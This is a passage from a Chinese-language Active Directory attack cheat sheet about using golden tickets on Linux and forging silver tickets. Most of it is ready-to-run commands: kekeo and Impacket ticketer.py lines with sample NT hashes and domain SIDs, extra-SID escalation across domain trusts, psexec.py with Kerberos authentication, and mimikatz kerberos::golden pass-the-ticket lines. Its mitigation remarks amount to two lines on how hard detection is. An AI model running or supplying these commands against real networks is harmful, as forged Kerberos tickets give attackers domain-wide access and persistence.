 #### 在Linux上使用票证

```powershell
# 使用kekeo将票证kirbi转换为ccache
misc::convert ccache ticket.kirbi

# 或者可以使用Impacket中的ticketer
./ticketer.py -nthash a577fcf16cfef780a2ceb343ec39a0d9 -domain-sid S-1-5-21-2972629792-1506071460-1188933728 -domain amity.local mbrody-da

ticketer.py -nthash HASHKRBTGT -domain-sid SID_DOMAIN_A -domain DEV Administrator -extra-sid SID_DOMAIN_B_ENTERPRISE_519
./ticketer.py -nthash e65b41757ea496c2c60e82c05ba8b373 -domain-sid S-1-5-21-354401377-2576014548-1758765946 -domain DEV Administrator -extra-sid S-1-5-21-2992845451-2057077057-2526624608-519

export KRB5CCNAME=/home/user/ticket.ccache
cat $KRB5CCNAME

# 注意：您可能需要注释掉proxychains配置文件中的proxy_dns设置
./psexec.py -k -no-pass -dc-ip 192.168.1.1 AD/administrator@192.168.1.100 
```

如果您需要在Windows和Linux之间交换票证，您需要使用`ticket_converter`或`kekeo`进行转换。

```powershell
root@kali:ticket_converter$ python ticket_converter.py velociraptor.ccache velociraptor.kirbi
Converting ccache => kirbi
root@kali:ticket_converter$ python ticket_converter.py velociraptor.kirbi velociraptor.ccache
Converting kirbi => ccache
```

缓解措施：

* 很难检测，因为它们是合法的TGT票证
* Mimikatz生成的金票有效期为10年

### 传递票据银牌票据

伪造服务票据（ST）需要机器账户密码（密钥）或服务账户的NT哈希。

```powershell
# 为服务创建票据
mimikatz $ kerberos::golden /user:USERNAME /domain:DOMAIN.FQDN /sid:DOMAIN-SID /target:TARGET-HOST.DOMAIN.FQDN /rc4:TARGET-MACHINE-NT-HASH /service:SERVICE

# 示例
mimikatz $ /kerberos::golden /domain:adsec.local /user:ANY /sid:S-1-5-21-1423455951-1752654185-1824483205 /rc4:ceaxxxxxxxxxxxxxxxxxxxxxxxxxxxxx /target:DESKTOP-01.adsec.local /service:cifs /ptt
mimikatz $ kerberos::golden /domain:jurassic.park /sid:S-1-5-21-1339291983-1349129144-367733775 /rc4:b18b4b218eccad1c223306ea1916885f /user:stegosaurus /service:cifs /target:labwws02.jurassic.park

